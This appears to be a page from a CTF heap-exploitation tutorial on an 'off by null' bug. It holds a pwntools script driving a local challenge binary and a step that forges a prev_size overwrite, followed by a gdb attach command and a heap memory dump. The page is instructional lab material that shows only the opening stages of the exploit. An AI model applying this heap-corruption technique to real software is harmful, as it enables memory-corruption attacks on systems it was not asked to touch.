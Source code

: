 ## 4.1.4 off by null
write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = 'debug'
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter('choice:', '1')

def add(length, name):
    p.sendlineafter('choice:', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter('choice:', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter('choice:', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 4 chunks, modify the 2nd one to overwrite, also the correct prev_size
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

pause()
edit(1, 0x68, flat('1' * 0x60, 0x170))
```
```
gdb -q -p `pidof pwn` -ex "b *0x400c05" -ex "c"
```
```
pwndbg> heapbase
heapbase : 0x228a000
pwndbg> x/90gx 0x228a000
0x228a000:	0x0000000000000000	0x0000000000000021
0x228a010:	0x0000000000400896	0x00000000004008b1
0x228a020:	0x0000000000000000	0x0000000000000101
0x228a030:	0x3030303030303030	0x3030303030303030
0x228a040:	0x3030303030303030	0x3030303030303030
0x228a050:	0x3030303030303030	0x3030303030303030
0x228a060:	0x3030303030303030	0x3030303030303030
0x228a070:	0x3030303030303030	0x3030303030303030
0x228a080:	0x3030303030303030	0x3030303030303030
0x228a090:	0x3030303030303030	0x3030303030303030
0x228a0a0:	0x3030303030303030	0x3030303030303030
```